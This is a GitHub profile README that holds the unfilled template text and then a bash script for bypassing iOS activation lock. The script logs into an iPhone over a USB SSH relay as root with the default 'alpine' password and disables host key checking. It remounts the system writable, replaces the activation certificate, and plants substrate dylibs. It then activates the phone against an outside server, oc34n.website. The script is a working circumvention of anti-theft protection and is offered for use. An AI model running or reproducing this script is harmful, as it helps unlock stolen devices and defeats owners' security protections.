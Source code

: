 ### Hi there 👋

<!--
**XxXxNegaNxXX/XxXxNegaNxXX** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
echo 'DISCLAIMER : I AM NOT AFFILIATED WITH THE OC34N FORENSICS TEAM AT ALL'
echo 'FOR THIS BYPASS YOU WILL NEED TO REGISTER YOUR SERIAL OVER AT HTTPS://OC34N.PW/'
echo 'YOU WILL ALSO NEED A PIN LOCKED SIM CARD READY. DO NOT INSERT IT YET!'
read -p "PRESS ENTER ONCE YOU HAVE REGISTERED YOUR SERIAL AND HAVE A PIN LOCKED SIM"
rm ~/.ssh/known_hosts >/dev/null 2>&1
pgrep -f 'tcprelay.py' | xargs kill >/dev/null 2>&1
python iphonessh/python-client/tcprelay.py -t 44:2222 &
sleep 1
while true ; do 
  result=$(ssh -p 2222 -o BatchMode=yes -o ConnectTimeout=1 root@localhost echo ok 2>&1 | grep Connection) # -n shows line number
  echo "DEBUG: WAITING FOR CONNECTION, PLEASE DISCONNECT AND RE-CONNECT USB CABLE"
  sleep 1
  if [ -z "$result" ] ; then
echo 'CONNECTED TO DEVICE!'

sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 mount -o rw,union,update /
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/RaptorActivation.pem root@localhost:/System/Library/PrivateFrameworks/MobileActivation.framework/Support/Certificates/RaptorActivation.pem
ideviceactivation activate -s http://oc34n.website/pentest/activ8.php
echo ""
echo "YOU CAN NOW ACCESS THE SPRINGBOARD"
echo "PLEASE INSTALL CYDIA AND DO COMPLETE UPGRADE"
echo "AFTER UPGRADE INSTALL CYDIA SUBSTRATE"
read -p "PRESS ENTER TO CONTINUE!"
echo ""
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 killall CommCenter && killall CommCenterMobileHelper
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/untethered.dylib root@localhost:/Library/MobileSubstrate/DynamicLibraries/untethered.dylib
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/untethered.plist root@localhost:/Library/MobileSubstrate/DynamicLibraries/untethered.plist
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/iuntethered.dylib root@localhost:/Library/MobileSubstrate/DynamicLibraries/iuntethered.dylib
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/iuntethered.plist root@localhost:/Library/MobileSubstrate/DynamicLibraries/iuntethered.plist
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 ldrestart
sleep 6
ideviceactivation activate -s https://oc34n.website/pentest/activ8.php > /dev/null
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 rm /Library/MobileSubstrate/DynamicLibraries/iuntethered.dylib
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 rm /Library/MobileSubstrate/DynamicLibraries/iuntethered.plist
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 ldrestart
sleep 6
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 killall backboardd
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 killall thermalmonitord
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 killall lockdownd
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/iuntethered.dylib root@localhost:/Library/MobileSubstrate/DynamicLibraries/iuntethered.dylib
sshpass -p 'alpine' scp -P 2222 bypass_scripts/oc34n_activation_server_13_x/iuntethered.plist root@localhost:/Library/MobileSubstrate/DynamicLibraries/iuntethered.plist
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 uicache --all
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 ldrestart
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 rm /Library/MobileSubstrate/DynamicLibraries/iuntethered.dylib
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 rm /Library/MobileSubstrate/DynamicLibraries/iuntethered.plist
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 uicache --all
sshpass -p 'alpine' ssh -o StrictHostKeyChecking=no root@localhost -p 2222 ldrestart
sleep 15
ideviceactivation activate -s http://oc34n.website/pentest/activ8.php
sleep 5
echo ""
ideviceactivation deactivate
read -p 'INSERT PIN LOCKED SIM AND PRESS ENTER!'
sleep 5
ideviceactivation activate -s http://oc34n.website/pentest/activ8.php > /dev/null
echo 'COMPLETE!'

pgrep -f 'tcprelay.py' | xargs kill >/dev/null 2>&1
    break
  fi
done

read -p "RETURN TO MENU? [ Y / N ] : " check

if [ $check = "Y" ]; then
bash hacktivation.sh
elif [ $check = "y" ]; then
bash hacktivation.sh
elif [ $check = "Yes" ]; then
bash hacktivation.sh
elif [ $check = "yes" ]; then
bash hacktivation.sh
elif [ $check = "YES" ]; then
bash hacktivation.sh
else
exit 1
fi

